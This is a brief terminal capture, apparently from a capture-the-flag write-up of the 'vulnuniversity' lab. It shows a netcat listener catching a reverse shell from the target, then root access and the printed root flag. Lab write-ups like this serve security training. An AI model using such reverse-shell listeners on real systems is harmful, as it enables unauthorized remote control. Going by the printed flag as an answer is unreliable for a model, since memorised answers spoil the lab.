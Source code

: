   ~~~bash
  $ nc -lvp 4321
  listening on [any] 4321 ...
  10.10.5.177: inverse host lookup failed: Unknown host
  connect to [10.9.90.233] from (UNKNOWN) [10.10.5.177] 57702
  bash: cannot set terminal process group (2180): Inappropriate ioctl for device
  bash: no job control in this shell
  root@vulnuniversity:/# ls
  ls
  bin
  boot
  dev
  etc
  home
  initrd.img
  lib
  lib64
  lost+found
  media
  mnt
  opt
  proc
  root
  run
  sbin
  snap
  srv
  sys
  tmp
  usr
  var
  vmlinuz
  root@vulnuniversity:/# cd root
  cd root
  root@vulnuniversity:~# ls
  ls
  root.txt
  root@vulnuniversity:~# cat root.txt
  cat root.txt
  a58ff8579f0a9270368d33a9966c7fd5
  ~~~

---




